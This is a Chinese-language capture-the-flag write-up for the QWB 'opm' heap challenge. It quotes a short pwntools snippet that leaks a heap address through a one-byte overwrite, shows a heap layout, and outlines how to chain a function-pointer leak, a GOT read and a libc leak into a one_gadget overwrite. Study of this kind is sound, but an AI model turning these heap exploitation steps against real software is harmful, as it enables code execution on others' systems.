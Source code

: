 #qwb ctf  opm writeup

###废话

鱼师傅说这是道堆的拼图游戏，做着做着感觉自己智商-1。
但是我不想每次都-1，不然把仅存的0x1都减完了，还是仔细看看吧。

### 做题时想法和看到wp后

```c
struct{
void *func
void *name = malloc(namelen);
    namelen = strlen;
    punches;
}
```
```c
a
b
c    ---->  a
d    ---->  b
     ---->  c
     ---->  d
```
大概率是贫穷限制了我的想象力吧。因为我们只能打印出b和d的内容，然后b和d都是在堆上的，堆上有什么？堆上只有堆的地址、还有一个函数地址。但是显然不可能打印出函数地址。于是我就想构造如上图的关系，但abc、和d是分开写的，于是上图的关系是不可能实现了。想破脑袋也不知道怎么回事。

来看看wp：

```c
newrole('a'*0x50, str(233))
newrole('a'*0x80 + chr(0x30), str(233))
newrole('a'*0x80, str(233).ljust(0x80,'c') + chr(0x30))
io.recvuntil('<'+'a'*0x28)
heap_addr = u64(io.recvuntil('>')[:-1].ljust(8, chr(0))) - 0x1A0
log.success("heap address:"+hex(heap_addr))
```
看完这几行代码，确实对自己的智商感到忧愁，看看堆布局：

```c
addr                prev      size      status            fd                bk
0x55aa83114000      0x0       0x11c10    Used                None              None
0x55aa83125c10      0x0       0x30       Used                None              None
0x55aa83125c40      0x0       0x60       Used                None              None
0x55aa83125ca0      0x0       0x30       Used                None              None
0x55aa83125cd0      0x0       0x90       Used                None              None
0x55aa83125d60      0x30      0x30       Used                None              None
0x55aa83125d90      0x0       0x90       Used                None              None
```
可以看到第3个chunk已经进1，此时覆写最后一个字节的话就会让结构体的abc落入前面的buf区，就可以打印出来。

但是我们这时候已经没办法打印第2次的结构体了，怎么办，先把第2次的abc存起来，到第3次才打印。

这样就可以泄露第3次申请的buf的堆地址。


###接下来
泄露了堆地址后要想办法泄露libc。
但是没有堆上没有libc，还有一个函数地址，泄露了函数地址就可以泄露got表地址，再通过got表去泄露libc。

怎么泄露函数地址，想想0x0030处还存着我们的fake struct。想办法把d写在b上，于是在0x0020的地方就可以。

###libc
有了函数地址，就可以算出got表地址，再如法炮制打印出got表内容就泄露了libc。泄露了libc把函数指针改成one_gadget即可。

### 总结

感觉这种题太靠脑洞了，智商-10。


